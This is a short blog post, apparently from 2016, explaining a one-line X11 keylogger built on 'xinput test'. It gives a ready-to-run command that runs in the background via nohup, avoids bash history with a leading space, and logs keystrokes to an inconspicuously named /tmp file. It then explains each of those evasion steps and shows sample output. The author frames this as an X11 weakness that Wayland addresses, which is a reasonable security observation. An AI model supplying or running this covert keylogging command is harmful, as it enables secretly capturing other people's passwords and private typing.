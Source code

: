 ```yaml
---
layout: post
title:  "A one-line X11 keylogger"
date: 2016-10-16
categories: linux X11 security
---
```


It's an old adage that you can't secure a computer against people with physical
access to it. I was interested in this idea, so I was exploring what could be done
with only keyboard and mouse access to a typical Ubuntu machine (i.e. without
being able to plug in usb devices or pull out hard drives) when I came across
the `xinput test` command. I'm sure this is old hat to anyone with a real
interest in security, and I'm sure there are plenty of ways to counter it; but I
think it's interesting anyway.

So, here's how to run an X11-based keylogger which writes to a local file and
probably won't be noticed by a non-paranoid user: Open a terminal, run

```
 nohup xinput test $(xinput list | grep 'AT Translated' | sed 's/.*id=\([0-9]*\).*/\1/') > /tmp/tmp.QTQTivXDhI
```

with a leading space character (markdown eats leading spaces in code samples..)
and close the terminal. You may need to change the `AT Translated` to the name
of your keyboard to get it working one your machine, have a look at the output
of `xinput list`. Now press some keys and it will write into
`/tmp/tmp.QTQTivXDhI` something like:

    key press   40
    key press   47
    key release 40
    key press   58
    key press   45
    key release 47
    key release 58
    key release 45
    key press   41
    key press   43
    key release 41
    key press   46
    key release 43
    key press   44
    key release 46
    key press   28
    key release 44
    key press   65
    key release 28
    key release 65

those numbers are X11 keycodes which can be translated to key names if you know
the keyboard layout in use.

Here's a breakdown of the command:

* The leading space tells bash not to record the command in it's history

* `nohup` prevents it from stopping when you close the terminal

* `xinput test` is the command which does the actual keylogging

* `$(...)` finds the id of the keyboard to log

* `> /tmp/tmp/....` writes the output to an inconspicuous looking file

Of course to make any use of this an attacker would need to come back to the
machine and inspect the resulting file, but if someone can get access once they
can probably do it a second time.

I'm not sure that this is a real problem since there are so many other things
that an attacker with this kind of access could do. This is one of many security
issues with X11 that Wayland
[should solve](https://blog.martin-graesslin.com/blog/2015/11/looking-at-the-security-of-plasmawayland/).
